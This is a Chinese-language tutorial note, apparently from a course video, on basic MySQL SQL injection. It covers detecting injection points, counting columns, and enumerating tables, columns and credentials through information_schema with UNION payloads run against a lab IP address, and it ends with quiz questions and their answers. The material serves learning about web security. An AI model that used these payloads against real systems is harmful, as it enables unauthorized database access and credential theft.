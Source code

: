 ﻿# WEB漏洞-SQL注入之简易sql注入   

标签（空格分隔）： SQL注入

---

## SQL注入
> SQL注入就是一种通过操作输入来修改后台SQL语句达到代码执行进行攻击目的的技术

## sql注入产生原因
> 接收数据 拼接数据 数据库执行 结果展示— 四个步骤，过程中处理不当就可能会存在注入漏洞
sql注入漏洞，取决于过滤严谨与否，过滤严谨，基本不可能存在sql注入漏洞，反之，就可能存在！

## SQL注入的危害
> 1.危害数据库里的数据
2.直接危害网站的权限

## SQL 注入知识结构
![image_1g5h21o1dbro176v1dae1b8p1bod9.png-108.9kB][1]

## mysql数据库注入
![image_1g5h23gondda1fig1d9316r4159qm.png-89.6kB][2]

## mysql数据库
> 数据库A=网站A=数据库用户A
表名——> 列名 ——> 数据(目标)
数据库B=网站B=数据库用户B
…
数据库C=网站C=数据库用户C
…

## 如何判定是否存在注入点？
> 老办法：
and 1=1 页面正常
and 1=2 页面异常
原理：
SELECT * FROM users WHERE id=1 LIMIT 0,1
SELECT * FROM users WHERE id=1 and 1=1 LIMIT 0,1 正常
SELECT * FROM users WHERE id=1 and 1=2 LIMIT 0,1 错误
逻辑运算（与 或 非）
真 且 真 = 真
真 且 假 = 假
真 或 假 = 真
SELECT * FROM users WHERE id=1 真
and（且） 1=1 真 =真
and（且） 1=2 假 =假
不要局限于此
SELECT * FROM users WHERE id=1xxxx(随意、怎么舒服怎么来！) LIMIT 0,1
随意输入内容后
对网页有影响说明带入数据库进行查询 有注入点。
对网页没有影响说明没有带入数据库查询
出现404（或者其他、如：跳转主页）说明对输入进行检测 基本没有sql漏洞

## 猜测列名数量（字段数）
> order by x(数字-不断尝试）
正常值 网页正常显示
错误值 错误网页报错

## 信息收集：
> 数据库版本：version（）5.7.22-0ubuntu0.16.04.1
数据库名字：database（）mozhe_Discuz_StormGroup
数据库用户：user（） root@localhost
操作系统： @@version_compile_os Linux

> 必要知识点：在MySQL5.0以上版本中，MySQL存在一个自带数据库名为 information_schema ，它是一个存储记录所有数据库名，表名，列名的数据库，也相当于可以通过查询它获取指定数据库下面的表名或者列名信息。

> 数据库中符号“.”代表下一级，如xiao.user表示xiao数据库下的user表名
information_schema.tables; 记录所有表名信息的表
information_schema.columns; 记录所有列名信息的表
table_name; 表名
column_name; 列名
查询指定数据库下所有表名信息  StormGroup_member,notice
http://124.70.22.208:43757/new_list.php?id=-1 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema=‘mozhe_Discuz_StormGroup’
查询指定表名下所有列名信息  id,name,password,status
http://124.70.22.208:43757/new_list.php?id=-1 union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name=‘StormGroup_member’
查询指定数据
http://124.70.22.208:43757/new_list.php?id=-1 union select 1,name,password,4 from StormGroup_member
> limit可以猜解多个数据 limit x,1 变动猜解
## 视频中出现的题目
> 1.可能存在注入的编号选项有哪几个？
1-www.xiaodi8.com/index.php?id=8
2-www.xiaodi8.com/?id=10
3-www.xiaodi8.com/?id=10&x=1
4-www.xiaodi8.com/index.php(post注入)
答案：1234
2.参数有x注入，以下哪个注入测试正确
A.www.xiaodi8.com/new/php?y=1 and 1=1&x=2
B.www.xiaodi8.com/new/php?y=1&x=2 and 1=1
C.www.xiaodi8.com/new/php?y=1 and 1=1 & x=2 and 1=1
D.www.xiaodi8.com/new/php?xx=1 and 1=1&xxx=2 and 1=1
答案：BC



  [1]: http://static.zybuluo.com/corn/s8wz3lkfaf9edqq5ygkyve1k/image_1g5h21o1dbro176v1dae1b8p1bod9.png
  [2]: http://static.zybuluo.com/corn/cqn7yqbytwks6ht85u0e9y9q/image_1g5h23gondda1fig1d9316r4159qm.png